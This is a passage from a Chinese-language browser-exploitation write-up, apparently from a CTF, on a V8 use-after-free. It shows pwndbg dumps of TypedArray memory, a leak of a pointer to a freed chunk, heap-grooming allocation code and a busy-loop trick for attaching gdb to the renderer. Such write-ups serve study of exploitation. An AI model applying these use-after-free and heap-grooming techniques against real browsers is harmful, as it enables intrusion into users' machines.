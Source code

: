 ```
		}
```

下面分别是uaf和leaks的内存布局（TypedArray）：

```
pwndbg> x/30gx 0x2bee08300ea1-1
0x2bee08300ea0:	0x080406e908201ac1	0x083084bd080411a9
0x2bee08300eb0:	0x0000000000000000	0x0000000000000008
0x2bee08300ec0:	0x0000000000000001	0x00000a99fce04650 => data_ptr
0x2bee08300ed0:	0x0000000000000000	0x0000000000000000

pwndbg> x/30gx 0x2bee08300e5d-1
0x2bee08300e5c:	0x080406e908201ac1	0x08308505080411a9
0x2bee08300e6c:	0x0000000000000000	0x0000000000000008
0x2bee08300e7c:	0x0000000000000001	0x00000a99fce04000 => data_ptr
0x2bee08300e8c:	0x0000000000000000	0x0000000000000000

```
下面是set之后的内存，此时leaks的data已经是指向freed块的指针了，我们就可以将它泄漏出来：

```
pwndbg> x/20gx 0x000020fbb8004650
0x20fbb8004650:	0x404600b8fb200000	0x0000000000000000

pwndbg> x/20gx 0x000020fbb8004000
0x20fbb8004000:	0x404600b8fb200000	0x0000000000000000
0x20fbb8004010:	0x604600b8fb200000	0x0000000000000000
0x20fbb8004020:	0x104000b8fb200000	0x0000000000000000
0x20fbb8004030:	0x204000b8fb200000	0x0000000000000000
0x20fbb8004040:	0x304000b8fb200000	0x0000000000000000
0x20fbb8004050:	0x404000b8fb200000	0x0000000000000000
0x20fbb8004060:	0x504000b8fb200000	0x0000000000000000
0x20fbb8004070:	0x604000b8fb200000	0x0000000000000000
0x20fbb8004080:	0x704000b8fb200000	0x0000000000000000
0x20fbb8004090:	0x804000b8fb200000	0x0000000000000000
```

解释一下gc()的作用：
- 如果在利用中需要多次的分配内存，一般希望对象都在Old Space中，这样对象的地址就不会改变。具体的方法就是大量地分配内存触发GC，将对象移动到Old Space。

这里有个不太明白的地方：并不是很懂这段代码的作用。
```
	gar = []
		for(let i = 0; i < 800000; i++){
			gar.push(new Float64Array(0x20).fill(13.37));
		}
```
##### 调试部分：

首先说下我的方法（纯笨办法，师傅们要是有好方法求分享qaq）
```
async function debug(){
	for(let j = 0; j < 0x100000; j++){
			var x = 1;
		for(let i = 0; i < 0x10000; i++){
			var x = x + i;
		}
	}

}
```
debug让browser暂停，之后ctrl c，在另一个gdb attach Renderer process来调试内存。
